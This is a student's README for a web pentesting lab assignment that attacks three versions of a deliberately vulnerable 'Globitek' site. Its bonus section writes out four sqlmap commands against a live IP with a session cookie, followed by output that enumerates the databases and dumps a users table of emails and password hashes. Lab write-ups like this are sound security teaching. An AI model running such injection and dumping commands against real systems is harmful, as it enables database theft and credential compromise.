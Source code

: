 # Project 8 - Pentesting Live Targets

Time spent: **X** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection

![](gif/SQLI.gif)

Vulnerability #2: Session Hijacking/Fixation

![](gif/session_hijacking_fixation.gif)

## Green

Vulnerability #1: Username Enumeration

![](gif/username_enumeration.gif)

Vulnerability #2: XSS

![](gif/XSS.gif)

## Red

Vulnerability #1: IDOR

![](gif/IDOR.gif)


Vulnerability #2: CSRF

![](gif/CSRF.gif)

## Notes

User name Enumeration:
It took me a long while to find the failed/failure change of class in the DOM.  I was looking for a message of sorts instead of such a subtle change.  I also wasn't sure which form I was supposed to look at.

IDOR:
That one was a bit more straight forward once I got into the swing of things, I was pretty sure that it had to do with user ids.

SQLI:
I tried all the forms to no avail, although sometimes I would get a blank page with a bad request notification giving me a false positive on the blue and green site.  I figured it was a bug since I couldn't reliably reproduce the error.

![](png/error.png)

XSS:
That one was straight forward, it felt intuitive that the best place to inject was in the contact form.  Although I did encounter the error from above again.  It seems that when quickly and consecutively doing the same action on the 3 different sites, the third request will fail.

CSRF:
2 vulnerability left and 2 sites simplifies the task quite a bit.


Session Hijacking/Fixation:
Last vulnerability and only one site left.  Really straight forward instructions and easy to implement.


## Bonus Objective 1:

Using sqlmap with the following query I got a list of all the databases:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --dbs --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5
```
available databases [7]:
[*] globitek_blue
[*] globitek_green
[*] globitek_red
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

I then used the following to get a listing of all the tables in globitek_blue:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue --tables
```
Database: globitek_blue
[8 tables]
+-------------------------+
| countries               |
| failed_logins           |
| feedback                |
| salespeople             |
| salespeople_territories |
| states                  |
| territories             |
| users                   |
+-------------------------+

I wanted to get a list of all columns in the user table with:
```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --columns
```

Database: globitek_blue
Table: users
[7 columns]
+-----------------+--------------+
| Column          | Type         |
+-----------------+--------------+
| created_at      | datetime     |
| email           | varchar(255) |
| first_name      | varchar(255) |
| hashed_password | varchar(255) |
| id              | int(11)      |
| last_name       | varchar(255) |
| username        | varchar(255) |
+-----------------+--------------+

Finally going to dump user information with:

```
sqlmap -u "https://35.226.85.132/blue/public/salesperson.php?id=1" --cookie="PHPSESSID=l5dhhrk5qand8l3npuml7drgg5" --threads 5 --risk 3 --time-sec 5 -D globitek_blue -T users --dump
```

Database: globitek_blue
Table: users
[3 entries]
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+
| id | email               | username  | last_name | created_at          | first_name | hashed_password                                              |
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+
| 1  | test@test.com       | jmonroe99 | Munroe    | NULL                | Jim        | $2y$11$Co5fHvH5Lgk2Zu0iHR46BO6fnqQt1pUljPbZOhk7bTU6hQFhjBJG. |
| 2  | lbt2000@nowhere.com | lbtables  | Tables    | 2016-06-03 19:33:54 | Bobby      | $2y$10$I.Jwfc8R3xaFwlAlPn5U3OLAQXrE0c2fakN8rR4j2TW0gRVMd6U6a |
| 3  | person@nowhere.com  | pperson   | Person    | 2017-01-01 02:50:26 | Pat        | $2y$11$FHZQn1eWZ3mbn11evb3CSeM20LCsJZI8yP9wS/UsOI6VWnx.7mKDa |
+----+---------------------+-----------+-----------+---------------------+------------+--------------------------------------------------------------+

